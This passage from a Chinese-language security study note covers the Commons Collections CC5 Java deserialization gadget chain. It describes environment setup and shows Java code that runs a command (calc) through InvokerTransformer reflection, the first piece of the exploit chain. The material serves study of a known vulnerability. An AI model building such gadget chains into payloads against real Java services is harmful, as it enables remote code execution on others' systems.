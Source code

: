 ```xml
    	<artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```
## 1.2 JDK版本及sun包源码
`CC5` 链对 `JDK` 版本暂无限制。

`commons-collections` 利用版本：
- CommonsCollections 3.1 - 3.2.1

`CC5` 链需要用到 `sun` 包中的类，而 `sun` 包在 `jdk` 中的代码是通过 `class` 文件反编译来的，不是 `java` 文件，调试不方便，通过 `find usages` 是搜不到要找的类的，而且其代码中的对象是 `var` 这样的形式，影响代码的阅读。

下载 `sun` 包，把 `src/share/classes` 中的 `sun` 文件夹 放到 `oracle jdk8u66` 的 `src` 文件夹下。

[https://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/af660750b2f4](https://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/af660750b2f4)

<div align=center><img width="641" alt="image" src="https://user-images.githubusercontent.com/84888757/204700877-5c68fc27-ba97-4dab-a0cd-01a70d91bdeb.png" /></div>

将 `sun` 包复制到对应 `jdk` 的 `src` 目录下（Macbook 是在 `/Library/Java/JavaVirtualMachines/jdk1.8.0_66.jdk/Contents/Home/Src` 下）

<img width="1155" alt="image" src="https://user-images.githubusercontent.com/84888757/204702741-0e8acfc6-52ec-4f28-965b-08e3178d7426.png">

然后在 `IDEA` 中，`File-->Project Structure- ->SDKs` 将 `src` 目录的路径加到 `Sourcepath` 中去：  

<div align=center><img width="894" alt="image" src="https://user-images.githubusercontent.com/84888757/204702840-522354dc-6fc8-4e28-b106-56b240d0908f.png" /></div>

下载 `maven` 源码包：

<div align=center><img width="445" alt="image" src="https://user-images.githubusercontent.com/84888757/204703339-9e7d9b3c-e354-489d-8ff2-e5992f3ddc8f.png" /></div>

# 0x02 CC5 Gadget 思路
## 2.1 危险方法InvokerTransformer#transform
`org.apache.commons.collections.functors.InvokerTransformer#transform` 中使用了反射：

![image](https://github.com/reidmu/sec-note/assets/84888757/2359d26b-945a-495e-87de-b271f437ce5b)

如果用正射的代码解释就是：
```java
input.iMethodName(iArgs);
```

`this.iMethodName`、`this.iParamTypes`、`this.iArgs` 均在 `InvokerTransformer` 的构造方法中可控。由此可以调用 `input` 对象的任意方法，传递任意参数。

![image](https://github.com/reidmu/sec-note/assets/84888757/b9c2e9ca-94d3-4ecc-840a-f3bf766da6a9)


所以我们将通过反射执行命令的代码改成如下形式：
```java
public class CC5_1 {
    public static void main(String[] args) throws Exception{
//        Runtime r = Runtime.getRuntime();
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(r, "calc");

        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```